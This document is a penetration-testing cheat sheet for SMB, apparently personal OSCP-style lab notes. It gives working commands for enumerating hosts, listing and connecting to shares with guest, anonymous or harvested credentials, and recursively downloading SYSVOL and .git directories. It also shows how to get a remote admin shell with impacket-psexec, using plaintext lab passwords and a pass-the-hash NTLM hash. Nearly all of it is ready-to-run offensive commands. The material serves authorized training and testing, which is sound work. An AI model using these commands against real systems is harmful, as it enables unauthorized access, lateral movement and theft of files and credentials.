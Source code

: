 ### Enumeration
```
enum4linux -a -v 192.168.211.13
enum4linux -a -v -u '' -p '' ip 
nmap --script "smb-vuln*" -p 445 ip
```
![image](https://github.com/user-attachments/assets/fbb53200-b7f1-489d-a5fa-80a576a8e1ab)

### SMB Common Credentials
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0375631b-bc54-4127-b160-d04df1a8538a)

### smb list shares
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
```
smb list share with guest account
```
smbmap -H 192.168.200.172 -u guest -p ''
smbmap -H 192.168.200.172 -u guest
smbmap -H 192.168.200.172 -u nobody -p ''
```
smb list shares anonymously
```
smbclient -L //ip
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
```
smb connect share with guest account
```
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
smb connect share anonymously
```
smbclient //ip/share
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. prompt off
4. recurse ON
5. mget *
6. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Admin share and C share needs to be writable  
The user that authenticates to the target machine needs to be part of the Administrators local group  
File and Printer Sharing has to be turned on
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
```
### Windows built-in command to list smb shares and map smb share to drive
```
net view \\10.191.21.18
net use F: \\10.191.21.18\testshare
net use S: "\\10.191.21.18\GSP Shared Folder"
```
